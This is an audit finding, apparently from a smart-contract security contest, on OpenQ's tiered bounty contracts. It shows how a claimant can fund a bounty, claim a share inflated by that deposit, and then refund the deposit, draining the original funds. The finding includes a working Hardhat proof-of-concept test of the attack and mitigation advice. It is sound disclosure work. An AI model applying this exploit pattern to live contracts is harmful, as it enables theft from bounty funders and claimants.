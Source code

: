 CodeFoxInc

high

# Refund during claiming process can cause malfunction

## Summary

The `fundingTotals` are calculated at the time of the first claim, so if a `depositRefund` occurs after that, there will be insufficient funds for claiming. It means people who should get the bounty cannot get it. The protocol breaks. 

In the worst case scenario, all of the original funds can be removed without the permission of the claimants. 

## Vulnerability Detail

There are several scenarios in this situation. And I would like to explain them. 

### Normal case

The function `claimTiered` in `TieredPercentageBountyV1` is called for each Tier, but the value of `fundingTotals` used in its calculation is save as a fixed value at the first claim. Therefore, if a deposit refund is made after the first claim, subsequent users will not receive the appropriate amount of rewards and suffer. 

### Advanced case

With `permissionedClaimTieredBounty()`, the timing of claiming is arbitrary to the user, so it is considered possible to claim first. Also, if you use the overflow attack, which I have in #5, you can be sure to be the first to claim, even if you are in a lower position tier.
Furthermore, if a large amount of token is funded just before the first claim, the first person to make a claim can take advantage of the calculation and take away all of the funds that were originally deposited. He can get this part of deposit which is not supposed to belong to him. 

The worst-case scenario story goes like this(please check with the attacking script):

1. Suppose this kind of situation: 
    1. The reward an attacker can get is 10% of the total and he is at the bottom of the tier.
    2. 1000 token is deposited by the bounty issuer. 
    3. The attacker is supposed to get 100 token in this case.
2. The attacker called the `fundBountyToken` function to deposit 9,000 token. And he sets the `expiration` to be 1.  (The total amount becomes 10,000)
3. After a short while, he makes a claim of 1000 token(10% of the total amount) through `claimBounty` function. He managed to get 10 times of the reward he deserved to get. 
4. Then he calls the `depositRefund` function to refund all the token he had deposited, which is 9,000 token.

**As a result of this:** 

1. The attacker managed to take over all of the assets existing in the bounty which is not supposed to be belong to him. 
2. The original funds 1000 token was totally drained by the attacker. 
3. He also got back the deposit he had made which is 9,000 token. 
4. The attacker lose nothing and stole all of the token inside the bounty.

## Impact

Funds deposited in the bounty can be taken over by attacker. Also, other tier winners may not receive the rewards they deserved.

### Attacking script

To regenerate the attack, please put this test script into the test file `ClaimManager.test.js` after this line of code.

```js
        it('attack', async () => {
          await openQProxy.mintBounty(
            Constants.bountyId,
            Constants.organization,
            tieredPercentageBountyInitOperation_permissionless
          );
          const bountyAddress = await openQProxy.bountyIdToAddress(Constants.bountyId);
          await mockLink.approve(bountyAddress, 10000000);
          await mockLink.connect(claimantThirdPlace).approve(bountyAddress, 10000000);
          await mockLink.transfer(claimantThirdPlace.address, 9000);
          // first funding
          await depositManager.fundBountyToken(bountyAddress, mockLink.address, 1000, 1, Constants.funderUuid);
          expect((await mockLink.balanceOf(bountyAddress)).toString()).to.equal('1000');
          // malicious funding
          const attackDepositId = generateDepositId(Constants.bountyId, 1);
          await depositManager
            .connect(claimantThirdPlace)
            .fundBountyToken(bountyAddress, mockLink.address, 9000, 1, attackDepositId);
          ethers.provider.send('evm_increaseTime', [1]);
          expect((await mockLink.balanceOf(bountyAddress)).toString()).to.equal('10000');
          expect((await mockLink.balanceOf(claimantThirdPlace.address)).toString()).to.equal('0');
          // first claim 1000
          await claimManager
            .connect(oracle)
            .claimBounty(bountyAddress, claimantThirdPlace.address, abiEncodedTieredCloserDataThirdPlace);
          // refund 9000
          await depositManager.connect(claimantThirdPlace).refundDeposit(bountyAddress, attackDepositId);
          // assert 9000 + 1000 = 10000
          expect((await mockLink.balanceOf(claimantThirdPlace.address)).toString()).to.equal('10000');
          // fail
          await expect(
            claimManager
              .connect(oracle)
              .claimBounty(bountyAddress, claimant.address, abiEncodedTieredCloserDataFirstPlace)
          ).to.be.reverted;
          await expect(
            claimManager
              .connect(oracle)
              .claimBounty(bountyAddress, claimantSecondPlace.address, abiEncodedTieredCloserDataSecondPlace)
          ).to.be.reverted;
        });
```


## Code Snippet
These require statements are not sufficient.
[BountyCore.sol#L64-L74](https://github.com/sherlock-audit/2023-02-openq/blob/main/contracts/Bounty/Implementations/BountyCore.sol#L64-L74)

```solidity
    function refundDeposit(
        bytes32 _depositId,
        address _funder,
        uint256 _volume
    ) external virtual onlyDepositManager nonReentrant {
        require(!refunded[_depositId], Errors.DEPOSIT_ALREADY_REFUNDED);
        require(funder[_depositId] == _funder, Errors.CALLER_NOT_FUNDER);
        require(
            block.timestamp >= depositTime[_depositId] + expiration[_depositId],
            Errors.PREMATURE_REFUND_REQUEST
        );
```

## Tool used

Manual Review

## Recommendation

We recommend that the expiration of the deposit be set fixed to give enough period of time for the tier winner to make a claim. 

Alternatively, after close competition, it is possible to set up a flag that prevents refunds for a certain period of time.


